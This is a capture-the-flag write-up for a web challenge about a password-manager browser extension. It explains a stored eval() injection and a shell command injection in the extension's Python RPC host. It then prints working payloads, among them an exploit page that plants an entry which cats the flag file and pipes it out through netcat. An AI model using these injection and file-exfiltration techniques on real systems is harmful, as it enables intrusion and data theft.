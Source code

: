 # First Fail (Web 400)
We are devloping a new secure password manager! Test it out here: http://challenge.acictf.com:12457
- Does the password manager page perform any insecure actions?
- Try to create a new entry directly

Solves: 20
# Installing
This turned out to be the most difficult piece of this challenge for me. I'm running on macOS, so, I had to modify the installation process locations for my machine.

TODO: Detailed steps

Once all done, for some odd reason the plugin would quit unless I ran chrome from the command line.

# Analysis
To get a sense for what this extension does and how it works, we can look through and get a good sense for what's happening.

1. The extension installs and injects some API code into each page that loads. This code is in `api.js`.

2. It sets up an RPC server, which will respond to requests from the browser. This server is run via `host.py`.

3. Once loaded, the extension will communicate via RPC to the server, to get information on the passwords stored for a website.

So, with a general idea, let's dive into seeing what we have for attack surface area.

1. We have the extension, but, we installed that locally.

2. When we load the test website, it tells us the flag is located at `/opt/problems/firstfail_9_fb7f1db7f59364d8901213581e8497af/flag.txt`.

3. We also are given a web URL submission box, that the admin will supposedly visit with the plugin installed.

From this, it appears that we need to somehow craft an exploit via this extension that can read a file on the filesystem. This needs to be delivered via a URL we provide to the admin.

Looking at the scripts we have, `manager.js` sticks out directly as it runs an `eval()` on the data it receives from a stored file.

```JavaScript
for (let account of msg.entries) {
  eval(account);
  ...
}
```

We also notice that the RPC server has some unsafe handling of input when it loads the stored data.

```python
def get_entries(pattern):
    try:
        res = subprocess.check_output('cat data/'+pattern, shell=True)
        return res.decode('latin-1').strip().split('\n')
    except Exception as e:
        logging.exception(str(e))
        return []
```
Finally, we see we can call any of these endpoints via a post message. However, we can't make use of the built-in message sending from the browser, as, a request to the entries endpoint will remove any payload we attach:
```javascript
if (msg.type === 'add_password') {
  msg.host = location.host;
} else if (msg.type === 'get_password' || msg.type === 'entries') {
  // Make domain wildcard pattern to match any subdomain
  let domain = location.host.split('.').slice(-2).join('.')
  msg.pattern = `*${domain}`;
}
```


# Approach
My approach to this will be in a few stages. First, I'll test an exploit locally using only the two vulnerabilities above. Then, I can try to find a way to change the data file on the remote computer.

1. To solve the first piece, I simply need to create a string in the appropriate data file that will run some code in the `eval()` call. As a simple PoC, you can try this:
```JavaScript
username=console.log('testing injection'),password="test"
```
Once added to the file, I can load the manager page in the browser, at `chrome-extension://cegaaaajnnledpnkmnjenhbakdijgcjo/manager.html`. If this worked as expected, we should see a log in the page console, and we do!

2. Now we want to read a file on disk. This can be a bit difficult, since the chrome sandbox will restrict access to local files. However, the RPC server at `host.py` does not have the same restrictions. So, I'm going to craft a payload that the `eval()` will execute, which will send a post message directly to the RPC server, with a command injection. Since this will be sent from a different source, the bit in `app.js` that changes the `entries` messages will not execute.

To make sure I can easily see the output, I simply setup a netcat listener and then use the following injection to test:
```
username=port.postMessage({type: 'entries',pattern: '; echo test | nc 127.0.0.1 1337'}),password="test"
```

I add this to the file, and remove the other tests, then load the manager page, and I see that the listener I setup has in fact received the word `test`.

3. Now, we need to find a way to write this injection into the remote data file. The first tempting option is the `add_password` endpoint, however, we can see from the Python implementation that this will properly escape our input and we won't actually be able to inject any code.
```python
def add_password(host, username, password):
    store_entry(host, 'username=%s,password=%s'%(
        json.dumps(username),
        json.dumps(password)))
    logging.info('Added new password for %s user %s'%(host, username))
```
However, we can see from the above it calls the function `store_entry()`. This function doesn't change our input in any way, so this is perfect.
```python
def store_entry(host, entry):
    host = host.replace('/','')
    with open(os.path.join('data',host), 'a') as f:
        f.write(entry+'\n')
```
Looking closer at the RPC message handler, we can see there is an endpoint to this function directly, `add_entry`:
```python
def rpc_process(msg):
    if msg['type'] == 'add_password':
        add_password(msg['host'],msg['username'],msg['password'])
        return None
    if msg['type'] == 'add_entry':
        store_entry(msg['host'],msg['entry'])
        return None
```
So, as a final recap of the solution to this stage:
1. I'll write a malicious Javascript line into the data file, using a post message to the `add_entry` endpoint.
2. That payload will execute in eval when the manager page is opened.
3. This payload will make a post request to the `entries` endpoint, with a specially crafted pattern to cat the flag and pipe it to a netcat listener.

4. The final step to put this all together is to put it all into a website that I can send to the admin. You can see my example at exploit.html. Since the extension is available in the page, I simply send my requests via it, and then make use of the `openManager()` function to automatically take the admin to the management page (which will execute my payload).
```javascript
window.onload = function() {
  if (window.PasswordManager === undefined) {
    document.getElementById('notice').innerHTML = `<h2 style="color:red">You do no have Secure Password Manager installed...</h2>`;
  } else {
    Promise.race([window.PasswordManager.ping(), new Promise((resolve, reject) => {
      setTimeout(reject,1000);
    })]).then((r)=>{
      window.postMessage({
          type:'add_entry',
          host:"challenge.acictf.com:12457",
          entry: "username=port.postMessage({type: 'entries',pattern: '; cat /opt/problems/firstfail_9_fb7f1db7f59364d8901213581e8497af/flag.txt | nc 127.0.0.1 1337'}),password=\"test\""
  }).then(function() {console.log('done')})
    }).catch(()=>{
      window.PasswordManager.openManager()
      document.getElementById('notice').innerHTML = `<h2 style="color:red">You have the plugin installed, but the RPC is not installed correctly...</h2>`;
    });

  }
}
```
And to finalize this exploit, I setup my listener, and setup a webserver with this file. I then send the admin the URL to my newly created page, and then check the listener for the flag.

# Solution
You can see the overall, final exploit in [exploit.html file](exploit.html).
